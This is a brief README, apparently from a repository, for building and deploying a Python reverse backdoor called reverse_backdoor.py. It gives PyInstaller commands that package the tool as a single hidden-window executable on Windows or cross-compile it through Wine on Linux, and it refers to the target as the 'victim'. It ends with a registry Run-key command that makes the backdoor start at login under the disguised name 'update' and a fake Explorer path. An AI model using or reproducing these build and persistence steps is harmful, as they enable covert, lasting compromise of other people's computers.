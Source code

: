 # Backdoor
--------------------------------------------------------------------------------------------------
## Windows
1: python -m pip install pyinstaller
2: pyinstaller.exe reverse_backdoor.py --onefile --noconsole

## Linux
1: Download python.msi cho windows
2: Run: wine msiexec /i python-....msi 
3: cd ./wine/drive_c/Python27
4: wine python -m pip install pyinstaller
5: Installs library in file python victim
6: wine pyinstaller.exe reverse_backdoor.py --onefile --noconsole

## Script reg windows start
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ /d "C:\Windows Explorer.exe"
